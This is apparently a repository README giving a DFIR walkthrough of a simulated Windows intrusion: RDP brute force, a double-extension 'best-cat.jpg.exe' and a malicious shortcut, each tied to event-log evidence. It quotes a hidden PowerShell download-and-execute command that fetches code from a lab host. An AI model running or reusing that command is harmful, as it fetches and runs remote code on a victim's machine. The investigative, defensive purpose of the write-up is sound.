







# Windows Threat Detection & DFIR Analysis

Welcome to the technical documentation of the `Cybersecurity-Hub` repository. This section walks you through a comprehensive DFIR (Digital Forensics and Incident Response) investigation of a multi-vector attack chain targeting Windows infrastructure. 

---

## Executive Summary

During our investigation, we mapped a sophisticated multi-vector intrusion against our Windows environment directly to the MITRE ATT&CK framework tactics. The attacker successfully gained an initial foothold via brute-force attacks on remote services, leveraged social engineering and malicious file extensions, bypassed endpoint defenses, and ultimately exfiltrated sensitive corporate data through covert DNS channels. 

---

## 1. Initial Access and Defense Evasion Vectors

### A. RDP Brute Force and Network Authentication

The attack begins at the perimeter. The Remote Desktop Protocol (RDP), running on port 3389, serves as the primary gateway exploited by the adversary. To gain unauthorized administrative entry, the attacker initiates a high-frequency credential stuffing and brute-force campaign against administrative accounts.

As we examine the Windows Security Event logs, the initial phase of this assault is clearly visible. The system records a massive wave of failed login attempts targeting the administrator account within a very tight time window:

* **Brute Force Attack (Event ID 4625 - Failed Logon):**
  * **Date/Time:** 5/20/2025 between 9:59:46 AM and 9:59:54 AM.
  * **Recorded Events:** 1,567 failed login attempts.
  * **TargetUserName:** ADMINISTRATOR
  * **Status Code:** `0xC000006D` (Incorrect username or bad password).

  

Despite multiple security controls, persistent password guessing eventually yields results. Shortly after the brute-force flurry, the telemetry captures an active session establishment. The adversary successfully authenticates remotely via RDP, binding the session to a svchost process managed from an external attacker-controlled IP address:

* **Successful RDP Logon (Event ID 4624 - LogonType 10):**
  * **Date/Time:** 5/20/2025 9:51:49 AM
  * **LogonType:** 10 (RemoteInteractive - Remote interactive logon session).
  * **Source Process:** `C:\Windows\System32\svchost.exe`
  * **Attacker Source IP:** `203.205.34.107`

  

Concurrently, network-level authentication logs reveal ancillary lateral movement and session handshakes using NTLM v2 protocols originating from an internal workstation within the network perimeter, confirming a broader compromised footprint:

* **NTLM V2 Network Authentication (Event ID 4624 - LogonType 3):**
  * **Date/Time:** 5/20/2025 9:51:47 AM
  * **LogonType:** 3 (Network Logon via NTLM V2 / NtLmSsp).
  * **Source Workstation:** `DESKTOP-QNBC4UU`

  

## 1. Initial Access and Defense Evasion Vectors (Continuation)

### B. Phishing & Malicious Files (LNK, Double Extension and ZIP)

Once inside the perimeter via RDP, the attacker shifts focus to expanding their foothold and introducing auxiliary tooling via social engineering and malicious file distribution. The adversary drops compressed archives and disguised binaries onto the victim's desktop environment.

Tracing the telemetry back to the browser download event, we observe the initial file acquisition originating from an external web source via Microsoft Edge. The operating system immediately flags the file with a `Zone.Identifier`, marking it as originating from an untrusted Internet zone:

* **Download and Zone Identification (Sysmon Event ID 11):**
  * **Date/Time (UTC):** 2025-05-20 18:58:28.709
  * **Process:** `msedge.exe` (PID: 1316)
  * **TargetFilename:** `C:\Users\Administrator\Downloads\top-cats.zip:Zone.Identifier`

  

Upon extracting the contents of the downloaded ZIP archive using Windows Explorer, the attacker deploys a file masquerading as a standard media asset. However, a closer look at the file path reveals a malicious double extension designed to trick unsuspecting users into executing a compiled binary:

* **Hidden Executable Extraction (Sysmon Event ID 11):**
  * **Date/Time (UTC):** 2025-05-20 18:58:43.834
  * **Process:** `Explorer.EXE` (PID: 2788)
  * **TargetFilename:** `C:\Users\Administrator\Pictures\best-cat.jpg.exe`

  

The process creation logs capture the exact moment this disguised file is launched. Spawning directly from the pictures directory, an 8MB executable runs under the guise of an image file, triggering suspicious child processes:

* **Double Extension Malware Execution (Sysmon Event ID 1):**
  * **Date/Time (UTC):** 2025-05-20 18:59:06.910
  * **CommandLine:** `"C:\Users\Administrator\Pictures\best-cat.jpg.exe"` (PID: 5484)
  * **Technique:** Masquerading (T1036)

  

Inspecting the file properties confirms the deliberate spoofing of the icon and file type, proving how attackers exploit default Windows configurations where known file extensions are hidden from view:

  

In parallel with binary execution, the adversary utilizes malicious shortcut links (`.LNK`) to achieve fileless persistence and command execution using native Living-off-the-Land Binaries (LOLBins). The shortcut executes an encoded PowerShell command stealthily in the background without raising any visible windows for the user:

* **Malicious Shortcut (.LNK / LOLBins):**
  * **File Name:** `Official Website.lnk`
  * **Obfuscated Command:** `powershell.exe -WindowStyle hidden -c iex (iwr -UseBasicParsing "http://wp16.hqywlqpa.thm:8000/cgi-bin/f").Content`

  

